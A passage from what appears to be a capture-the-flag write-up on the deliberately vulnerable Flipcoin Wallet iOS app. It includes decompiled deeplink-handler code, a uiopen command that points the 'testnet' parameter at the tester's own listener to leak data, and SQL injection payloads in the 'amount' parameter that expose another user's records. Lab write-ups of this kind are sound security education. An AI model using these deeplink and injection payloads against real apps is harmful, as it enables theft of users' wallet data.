            defaul_testnet_value.bridgeObject = local_680;
            defaul_testnet_value.str = local_688;
          }
          _swift_bridgeObjectRelease(local_680);
          local_738 = defaul_testnet_value.str;
          local_730 = defaul_testnet_value.bridgeObject;
          local_138 = defaul_testnet_value.str;
          local_130 = defaul_testnet_value.bridgeObject;
          local_700 = 0;
          pUVar15 = __C::UIStoryboard::typeMetadataAccessor();
          in_x3 = (undefined *)testnet_str_init.bridgeObject;
          local_71c = 1;
          local_728 = pUVar15;
          prefix_str_init = Swift::String::init("Main",4,1);
          local_708 = __C::UIStoryboard::$__allocating_init(pUVar15,prefix_str_init);
          _objc_retain();
          local_140 = local_708;
          prefix_str_init = Swift::String::init("NoBalance",9,(byte)local_71c & 1);
          local_718 = prefix_str_init.bridgeObject;
          local_710 = (extension_Foundation)::Swift::String::_bridgeToObjectiveC();
          _swift_bridgeObjectRelease(local_718);
          pUVar15 = local_708;
          _objc_msgSend(local_708,"instantiateViewControllerWithIdentifier:",local_710);
          _objc_retainAutoreleasedReturnValue();
          local_6f8 = pUVar15;
          _objc_release(local_710);
          _objc_release(local_708);
          _objc_retain(local_6f8);
          local_148 = local_6f8;
          local_6f0 = __C::UINavigationController::typeMetadataAccessor();
          local_150 = __C::UINavigationController::__allocating_init
                                (local_6f0,(UIViewController *)local_6f8);
          local_160 = local_6c8;
          local_158 = local_6c0;
          $$outlined_init_with_copy_of_Swift.String?(&local_160,auStack_170);
          string_operators_bool_result = local_168 != 0;
          if (string_operators_bool_result) {
            $$outlined_destroy_of_Swift.String?(auStack_170);
          }
          local_73c = (uint)string_operators_bool_result;
          if (local_73c == 0) {
            local_960 = local_490;
          }
          else {
            local_438[6] = local_438[6] + 1;
            pDVar16 = DatabaseHelper::typeMetadataAccessor();
            pDVar16 = DatabaseHelper::__allocating_init(pDVar16);
            (**(code **)((*(ulong *)local_440 & *local_428) + 0x80))();
            (**(code **)((*(ulong *)local_440 & *local_428) + 0x78))();
            pcVar24 = local_3f0;
            SVar7.unknown = local_408.unknown;
            local_748 = pDVar16;
            if (pDVar16 == (DatabaseHelper *)0x0) {
              *(undefined1 *)(lVar2 + -0x20) = 2;
              *(undefined8 *)(lVar2 + -0x18) = 0x3b;
              *(undefined4 *)(lVar2 + -0x10) = 0;
              Swift::_assertionFailure
                        (SVar7,(StaticString)0xb,(StaticString)0x2,(__uint64)pcVar24,0x44);
                    /* WARNING: Does not return */
              pcVar8 = (code *)SoftwareBreakpoint(1,0x100017080);
              (*pcVar8)();
            }
            uVar28 = 1;
            local_760 = pDVar16;
            local_750 = pDVar16;
            local_190 = (undefined *)Swift::DefaultStringInterpolation::init(0x2e,1);
            DVar31.unknown = (undefined *)0x1;
            local_188 = uVar28;
            prefix_str_init = Swift::String::init("WHERE amount >",0xe,1);
            local_758 = prefix_str_init.bridgeObject;
            Swift::DefaultStringInterpolation::appendLiteral(prefix_str_init,DVar31);
            _swift_bridgeObjectRelease(local_758);
            _swift_bridgeObjectRetain(local_6c0);
            pcVar24 = local_400;
            SVar7.unknown = local_408.unknown;
            if (local_6c0 == (void *)0x0) {
              *(undefined1 *)(lVar2 + -0x20) = 2;
              *(undefined8 *)(lVar2 + -0x18) = 0x3c;
              *(undefined4 *)(lVar2 + -0x10) = 0;
              Swift::_assertionFailure
                        (SVar7,(StaticString)0xb,(StaticString)0x2,(__uint64)pcVar24,0x39);
                    /* WARNING: Does not return */
              pcVar8 = (code *)SoftwareBreakpoint(1,0x100017158);
              (*pcVar8)();
            }
            local_770 = local_6c8;
            local_768 = local_6c0;
            local_7b0 = &local_1a0;
            local_1a0 = local_6c8;
            local_198 = local_6c0;
            local_7a0 = &local_190;
            in_x3 = local_410;
            Swift::DefaultStringInterpolation::$appendInterpolation
                      (local_7b0,local_420.unknown,local_418);
            $$outlined_destroy_of_Swift.String(local_7b0);
            DVar31.unknown = (undefined *)0x1;
            prefix_str_init = Swift::String::init(" AND currency=\'flipcoin\' LIMIT 1",0x20,1);
            local_7a8 = prefix_str_init.bridgeObject;
            Swift::DefaultStringInterpolation::appendLiteral(prefix_str_init,DVar31);
            pDVar16 = local_760;
            _swift_bridgeObjectRelease(local_7a8);
            local_790.unknown = local_190;
            local_798 = local_188;
            _swift_bridgeObjectRetain();
            $$outlined_destroy_of_Swift.DefaultStringInterpolation(local_7a0);
            prefix_str_init = Swift::String::init(local_790);
            local_788 = prefix_str_init.bridgeObject;
            (**(code **)(*(long *)pDVar16 + 0xb0))();
            local_780 = prefix_str_init.str;
            _swift_bridgeObjectRelease(local_788);
            _swift_release(local_760);
            local_1a8 = local_780;
            local_778 = 0;
            pWVar17 = Wallet::typeMetadataAccessor();
            _Var18 = Swift::Array<undefined>::get_count(pWVar17,pWVar17);
            if (local_778 < _Var18) {
              local_438[7] = local_438[7] + 1;
              local_1b0 = local_780;
              local_7d0 = local_780;
              _swift_bridgeObjectRetain();
              local_7c0 = &local_1c0;
              local_1c0 = local_7d0;
              puVar10 = &$$demangling_cache_variable_for_type_metadata_for_[Flipcoin_Wallet.Wallet];
              ___swift_instantiateConcreteTypeFromMangledName();
              local_7c8 = puVar10;
              Swift::Array<Wallet>::$lazy_protocol_witness_table_accessor();
              (extension_Swift)::Swift::BidirectionalCollection::$get_last();
              $$outlined_destroy_of_[Flipcoin_Wallet.Wallet](local_7c0);
              pcVar24 = local_400;
              SVar7.unknown = local_408.unknown;
              pUVar15 = local_728;
              local_7b8 = local_1b8;
              if (local_1b8 == (long *)0x0) {
                *(undefined1 *)(lVar2 + -0x20) = 2;
                *(undefined8 *)(lVar2 + -0x18) = 0x3e;
                *(undefined4 *)(lVar2 + -0x10) = 0;
                Swift::_assertionFailure
                          (SVar7,(StaticString)0xb,(StaticString)0x2,(__uint64)pcVar24,0x39);
                    /* WARNING: Does not return */
                pcVar8 = (code *)SoftwareBreakpoint(1,0x100017320);
                (*pcVar8)();
              }
              local_7d8 = local_1b8;
              local_830 = local_1b8;
              local_1c8 = local_1b8;
              local_85c = 1;
              prefix_str_init = Swift::String::init("Main",4,1);
              local_840 = 0;
              local_848 = __C::UIStoryboard::$__allocating_init(pUVar15,prefix_str_init);
              _objc_retain();
              pUVar15 = local_140;
              local_140 = local_848;
              _objc_release(pUVar15);
              prefix_str_init = Swift::String::init("SendCrypto",10,(byte)local_85c & 1);
              local_858 = prefix_str_init.bridgeObject;
              local_850 = (extension_Foundation)::Swift::String::_bridgeToObjectiveC();
              _swift_bridgeObjectRelease(local_858);
              pUVar15 = local_848;
              _objc_msgSend(local_848,"instantiateViewControllerWithIdentifier:",local_850);
              _objc_retainAutoreleasedReturnValue();
              local_838 = pUVar15;
              _objc_release(local_850);
              _objc_release(local_848);
              local_7f8 = SendController::typeMetadataAccessor();
              local_7f0 = 0;
              local_7e4 = 0;
              pUVar15 = local_838;
              _swift_dynamicCastClassUnconditional();
              local_800 = pUVar15;
              _objc_retain();
              _objc_retain(local_800);
              _objc_retain(local_800);
              _objc_retain(local_800);
              _objc_retain(local_800);
              pUVar15 = local_148;
              local_148 = local_800;
              _objc_release(pUVar15);
              pUVar15 = local_800;
              _swift_dynamicCastClassUnconditional(local_800,local_7f8,local_7f0,local_7e4);
              local_828 = pUVar15;
              _swift_retain(local_830);
              (**(code **)((*(ulong *)pUVar15 & *local_428) + 200))(local_830);
              get_host_1.unknown = local_350;
              _objc_release(local_828);
              pUVar15 = local_800;
              _swift_dynamicCastClassUnconditional(local_800,local_7f8,local_7f0,local_7e4);
              UVar11.unknown = url_context?;
              local_808 = pUVar15;
              _objc_msgSend(url_context?,"URL");
              _objc_retainAutoreleasedReturnValue();
              local_810 = UVar11.unknown;
              Foundation::URL::$_unconditionallyBridgeFromObjectiveC(UVar11);
              lVar19 = local_2d8;
              (*local_4c8)(get_host_1.unknown,local_2d8,local_380);
              Foundation::URL::$get_host(get_host_1);
              pUVar15 = local_808;
              local_820 = get_host_1.unknown;
              local_818 = lVar19;
              (*local_4c0)(local_350,local_380);
              (*local_4c0)(local_2d8,local_380);
              (**(code **)((*(ulong *)pUVar15 & *local_428) + 0x98))(local_820,local_818);
              _objc_release(local_810);
              _objc_release(local_808);
              pUVar15 = local_800;
              _swift_dynamicCastClassUnconditional(local_800,local_7f8,local_7f0,local_7e4);
              local_7e0 = pUVar15;
              _swift_bridgeObjectRetain(local_6c0);
              (**(code **)((*(ulong *)pUVar15 & *local_428) + 0xb0))(local_6c8,local_6c0);
              _objc_release(local_7e0);
              Foundation::URL::$init();
              lVar19 = local_390;
              (**(code **)(local_378 + 0x30))(local_390,1,local_380);
              pcVar24 = local_400;
              SVar7.unknown = local_408.unknown;
              plVar5 = local_830;
              if ((int)lVar19 == 1) {
                *(undefined1 *)(lVar2 + -0x20) = 2;
                *(undefined8 *)(lVar2 + -0x18) = 0x45;
                *(undefined4 *)(lVar2 + -0x10) = 0;
                Swift::_assertionFailure
                          (SVar7,(StaticString)0xb,(StaticString)0x2,(__uint64)pcVar24,0x39);
                    /* WARNING: Does not return */
                pcVar8 = (code *)SoftwareBreakpoint(1,0x10001762c);
                (*pcVar8)();
              }
              lVar19 = local_390;
              (*local_518)(local_360,local_390,local_380);
              EVar20.unknown = (undefined *)CryptoKit::SHA256::typeMetadataAccessor();
              local_888 = EVar20.unknown;
              (**(code **)(*plVar5 + 0x90))();
              local_870 = &local_1d8;
              local_1d8 = EVar20.unknown;
              local_1d0 = lVar19;
              EVar21 = Encoding::$get_utf8(EVar20);
              Swift::String::$lazy_protocol_witness_table_accessor();
              EVar20.unknown = local_420.unknown;
              local_880 = EVar21.unknown;
              (extension_Foundation)::Swift::StringProtocol::$data
                        (local_420,SUB81(EVar21.unknown,0));
              uVar1 = (uint)EVar20.unknown & 1;
              uVar29 = (ulong)uVar1;
              EVar20.unknown = local_3c8.unknown;
              (extension_Foundation)::Swift::StringProtocol::$data(local_3c8,SUB41(uVar1,0));
              local_878 = EVar20.unknown;
              local_868 = uVar29;
              (**(code **)(local_3d8 + 8))(local_3c8.unknown,local_3e0);
              ppuVar22 = local_870;
              $$outlined_destroy_of_Swift.String();
              pcVar24 = local_400;
              SVar7.unknown = local_408.unknown;
              lVar19 = local_490;
              puVar10 = local_888;
              if ((local_868 & 0xf000000000000000) == 0xf000000000000000) {
                *(undefined1 *)(lVar2 + -0x20) = 2;
                *(undefined8 *)(lVar2 + -0x18) = 0x47;
                *(undefined4 *)(lVar2 + -0x10) = 0;
                Swift::_assertionFailure
                          (SVar7,(StaticString)0xb,(StaticString)0x2,(__uint64)pcVar24,0x39);
                    /* WARNING: Does not return */
                pcVar8 = (code *)SoftwareBreakpoint(1,0x100017750);
                (*pcVar8)();
              }
              local_898 = local_878;
              local_890 = local_868;
              local_8b0 = &local_1e8;
              local_1e8 = local_878;
              local_1e0 = local_868;
              CryptoKit::SHA256::$lazy_protocol_witness_table_accessor();
              local_8b8 = ppuVar22;
              Foundation::Data::$lazy_protocol_witness_table_accessor();
              (extension_CryptoKit)::CryptoKit::HashFunction::$hash
                        (local_3a8,local_8b0,puVar10,
                         PTR_$$type_metadata_for_Foundation.Data_1000280c0,local_8b8,ppuVar22);
              $$outlined_destroy_of_Foundation.Data(local_8b0);
              CryptoKit::SHA256Digest::$lazy_protocol_witness_table_accessor();
              pcVar8 = 
              $$closure_#1_(Swift.UInt8)_->_Swift.String?_in_Flipcoin_Wallet.SceneDelegate.scene(_:_ __C.UIScene,openURLContexts:_Swift.Set<>)_->_()
              ;
              (extension_Swift)::Swift::Sequence::$compactMap();
              local_8a8 = lVar19;
              local_8a0 = pcVar8;
              if (lVar19 != 0) {
                    /* WARNING: Does not return */
                pcVar8 = (code *)SoftwareBreakpoint(1,0x100017cfc);
                (*pcVar8)();
              }
              local_940 = &local_1f0;
              pcVar24 = &$$demangling_cache_variable_for_type_metadata_for_[Swift.String];
              local_1f0 = pcVar8;
              ___swift_instantiateConcreteTypeFromMangledName();
              local_958 = pcVar24;
              Swift::Array<String>::$lazy_protocol_witness_table_accessor();
              separator.bridgeObject = pcVar24;
              separator.str = local_958;
              local_950 = pcVar24;
              prefix_str_init =
                   (extension_Swift)::Swift::BidirectionalCollection::$joined(separator);
              local_948 = prefix_str_init.bridgeObject;
              prefix_str_init =
                   (extension_Swift)::Swift::BidirectionalCollection::$joined(prefix_str_init);
              local_8c8 = prefix_str_init.bridgeObject;
              local_920 = prefix_str_init.str;
              _swift_bridgeObjectRelease(local_948);
              $$outlined_destroy_of_[Swift.String](local_940);
              local_200 = local_920;
              local_1f8 = local_8c8;
              uVar28 = 2;
              local_210 = (undefined *)Swift::DefaultStringInterpolation::init(0x45,2);
              local_908 = &local_210;
              local_914 = 1;
              DVar31.unknown = (undefined *)0x1;
              local_208 = uVar28;
              prefix_str_init =
                   Swift::String::init("    \'{\"jsonrpc\":\"2.0\",\"method\":\"web3_sha3\",\"params \":[\""
                                       ,0x36,1);
              local_938 = prefix_str_init.bridgeObject;
              Swift::DefaultStringInterpolation::appendLiteral(prefix_str_init,DVar31);
              plVar5 = local_830;
              pvVar30 = prefix_str_init.bridgeObject;
              pvVar23 = local_938;
              _swift_bridgeObjectRelease();
              (**(code **)(*plVar5 + 0x90))();
              local_930 = &local_220;
              local_220 = pvVar23;
              local_218 = pvVar30;
              Swift::DefaultStringInterpolation::$appendInterpolation
                        (local_930,local_420.unknown,local_418,local_410);
              $$outlined_destroy_of_Swift.String(local_930);
              DVar31.unknown = (undefined *)(ulong)(local_914 & 1);
              prefix_str_init = Swift::String::init("\", \"",4,(__int8)(local_914 & 1));
              local_928 = prefix_str_init.bridgeObject;
              Swift::DefaultStringInterpolation::appendLiteral(prefix_str_init,DVar31);
              _swift_bridgeObjectRelease(local_928);
              local_230 = local_920;
              local_228 = local_8c8;
              Swift::DefaultStringInterpolation::$appendInterpolation
                        (&local_230,local_420.unknown,local_418,local_410);
              DVar31.unknown = (undefined *)(ulong)(local_914 & 1);
              prefix_str_init = Swift::String::init("\"],\"id\":1}\'",0xb,(__int8)(local_914 & 1));
              local_910 = prefix_str_init.bridgeObject;
              Swift::DefaultStringInterpolation::appendLiteral(prefix_str_init,DVar31);
              pSVar6 = local_440;
              _swift_bridgeObjectRelease(local_910);
              local_8f8.unknown = local_210;
              local_900 = local_208;
              _swift_bridgeObjectRetain();
              $$outlined_destroy_of_Swift.DefaultStringInterpolation(local_908);
              prefix_str_init = Swift::String::init(local_8f8);
              local_8d0 = prefix_str_init.bridgeObject;
              pcVar24 = prefix_str_init.str;
              lVar19 = local_360;
              local_8f0 = pcVar24;
              local_240 = pcVar24;
              local_238 = local_8d0;
              (**(code **)((*(ulong *)pSVar6 & *local_428) + 0xa8))();
              in_x3 = (undefined *)0x0;
              pUVar15 = local_800;
              local_8e8 = lVar19;
              local_8d8 = pcVar24;
              local_250 = lVar19;
              local_248 = pcVar24;
              _swift_dynamicCastClassUnconditional(local_800,local_7f8,0);
              local_8e0 = pUVar15;
              _swift_bridgeObjectRetain(local_8d8);
              (**(code **)((*(ulong *)pUVar15 & *local_428) + 0xf8))(local_8e8,local_8d8);
              pUVar14 = local_6f0;
              _objc_release(local_8e0);
              pUVar25 = __C::UINavigationController::__allocating_init
                                  (pUVar14,(UIViewController *)local_800);
              pUVar14 = local_150;
              local_150 = pUVar25;
              _objc_release(pUVar14);
              _swift_bridgeObjectRelease(local_8d8);
              _swift_bridgeObjectRelease(local_8d0);
              _swift_bridgeObjectRelease(local_8c8);
              (**(code **)(local_3b8 + 8))(local_3a8,local_3c0);
              (*local_4c0)(local_360,local_380);
              _swift_release(local_830);
              local_8c0 = local_8a8;
            }
            else {
              local_8c0 = local_490;
            }
            local_968 = local_8c0;
            _swift_bridgeObjectRelease(local_780);
            local_960 = local_968;
          }
          local_970 = local_960;
          pUVar26 = __C::UIWindow::typeMetadataAccessor();
          _objc_retain(local_480);
          pUVar26 = __C::UIWindow::__allocating_init(pUVar26,(UIWindowScene *)local_480);
          (**(code **)((*(ulong *)local_440 & *local_428) + 0x68))();
          (**(code **)((*(ulong *)local_440 & *local_428) + 0x60))();
          local_178 = pUVar26;
          if (pUVar26 == (UIWindow *)0x0) {
            pUVar26 = (UIWindow *)&local_178;
            $$outlined_destroy_of___C.UIWindow?();
          }
          else {
            local_988 = &local_178;
            local_978 = pUVar26;
            _objc_retain();
            $$outlined_destroy_of___C.UIWindow?(local_988);
            local_980 = local_150;
            _objc_retain();
            _objc_msgSend(local_978,"setRootViewController:",local_980);
            _objc_release(local_980);
            pUVar26 = local_978;
            _objc_release();
          }
          (**(code **)((*(ulong *)local_440 & *local_428) + 0x60))();
          local_180 = pUVar26;
          if (pUVar26 == (UIWindow *)0x0) {
            $$outlined_destroy_of___C.UIWindow?(&local_180);
          }
          else {
            local_998 = &local_180;
            local_990 = pUVar26;
            _objc_retain();
            $$outlined_destroy_of___C.UIWindow?(local_998);
            _objc_msgSend(local_990,"makeKeyAndVisible");
            _objc_release(local_990);
          }
          _objc_release(local_150);
          _objc_release(local_148);
          _objc_release(local_140);
          _swift_bridgeObjectRelease(local_730);
          _swift_bridgeObjectRelease(local_6c0);
          local_9a0 = local_970;
        }
        local_9a8 = local_9a0;
        _swift_bridgeObjectRelease(local_4b0);
        _objc_release(local_4d0);
        local_5c0 = local_9a8;
      }
      else {
                    /* If false buy string equal check */
        _swift_bridgeObjectRelease(local_4b0);
        local_570 = 1;
        local_438[3] = local_438[3] + 1;
        local_560 = 0;
        pUVar15 = __C::UIStoryboard::typeMetadataAccessor();
        local_594 = 1;
        prefix_str_init = Swift::String::init("Main",4,1);
        local_588 = __C::UIStoryboard::$__allocating_init(pUVar15,prefix_str_init);
        local_290 = local_588;
        prefix_str_init = Swift::String::init("TabbedControllerID",0x12,(byte)local_594 & 1);
        local_590 = prefix_str_init.bridgeObject;
        local_580 = (extension_Foundation)::Swift::String::_bridgeToObjectiveC();
        _swift_bridgeObjectRelease(local_590);
        pUVar15 = local_588;
        _objc_msgSend(local_588,"instantiateViewControllerWithIdentifier:",local_580);
        _objc_retainAutoreleasedReturnValue();
        local_578 = pUVar15;
        _objc_release(local_580);
        puVar10 = &_OBJC_CLASS_$_UITabBarController;
        _objc_opt_self(&_OBJC_CLASS_$_UITabBarController);
        in_x3 = (undefined *)0x0;
        pUVar15 = local_578;
        _swift_dynamicCastObjCClassUnconditional(local_578,puVar10,0);
        local_568 = pUVar15;
        local_298 = pUVar15;
        _objc_msgSend();
        pUVar14 = __C::UINavigationController::typeMetadataAccessor();
        _objc_retain(local_568);
        local_558 = __C::UINavigationController::__allocating_init
                              (pUVar14,(UIViewController *)local_568);
        local_2a0 = local_558;
        pUVar26 = __C::UIWindow::typeMetadataAccessor();
        _objc_retain(local_480);
        pUVar26 = __C::UIWindow::__allocating_init(pUVar26,(UIWindowScene *)local_480);
        (**(code **)((*(ulong *)local_440 & *local_428) + 0x68))();
        (**(code **)((*(ulong *)local_440 & *local_428) + 0x60))();
        local_2a8 = pUVar26;
        if (pUVar26 == (UIWindow *)0x0) {
          pUVar26 = (UIWindow *)&local_2a8;
          $$outlined_destroy_of___C.UIWindow?();
        }
        else {
          local_5a8 = &local_2a8;
          local_5a0 = pUVar26;
          _objc_retain();
          $$outlined_destroy_of___C.UIWindow?(local_5a8);
          _objc_retain(local_558);
          _objc_msgSend(local_5a0,"setRootViewController:",local_558);
          _objc_release(local_558);
          pUVar26 = local_5a0;
          _objc_release();
        }
        (**(code **)((*(ulong *)local_440 & *local_428) + 0x60))();
        local_2b0 = pUVar26;
        if (pUVar26 == (UIWindow *)0x0) {
          $$outlined_destroy_of___C.UIWindow?(&local_2b0);
        }
        else {
          local_5b8 = &local_2b0;
          local_5b0 = pUVar26;
          _objc_retain();
          $$outlined_destroy_of___C.UIWindow?(local_5b8);
          _objc_msgSend(local_5b0,"makeKeyAndVisible");
          _objc_release(local_5b0);
        }
        _objc_release(local_558);
        _objc_release(local_568);
        _objc_release(local_588);
        _swift_bridgeObjectRelease(local_4b0);
        _objc_release(local_4d0);
        local_5c0 = local_490;
      }
      local_9b0 = local_5c0;
      _objc_release(url_context?);
      local_468 = local_9b0;
    }
    $$outlined_destroy_of_Swift.Set<>.Iterator(auStack_b0);
    _objc_release(local_480);
  }
  return;
}
```

That's quite a long code; summarising, these are the most relevant points:

- The deeplink expects two query params: `amount` which is self-explanatory and `testnet`, which default value is `https://mhl.pages.dev:8545`
- A SQL query is unsafely constructed by using unvalidated user input (`amount`).

`amount` and `testnet` parameters:




`testnet` default value:




Unsafe SQL query construction:



While searching for strings, the following is found in the  `Flipcoin_Wallet::DatabaseHelper`'s `$get_wallets` method:



Therefore, the constructed query is most likely the following: `SELECT * from wallet WHERE amount > [amount param value] AND currency='flipcoin' LIMIT 1`.
## Solution

Firstly, I wanted to understand the purpose for the `testnet` parameter, so I've ran the following deeplink, after connecting with SSH to the iPhone device:

```shell
uiopen "flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0&testnet=http://192.168.1.85:8000"
```

On a previously set up listener, the following data is received:



This parameter therefore seems to be used for testing purposes and can be eventually abused by a threat actor to leak data.

Next step has been to understand if a SQL injection was possible. The following payload has been provided as value for the `amount` parameter: `0%20AND%201%3D1--`. This payload corresponds is the URL-encoded form of the following string: `0 AND 1=1--`.

As shown below, this payload returned some data to the listener; also note that another user data is leaked. This indicates that the SQL injection was successful:



The following counter-proof confirmed it, using the payload `0%20AND%201%3D0--` (`0 AND 1=0--`), which returned no data since the query results into no row being retrieved:

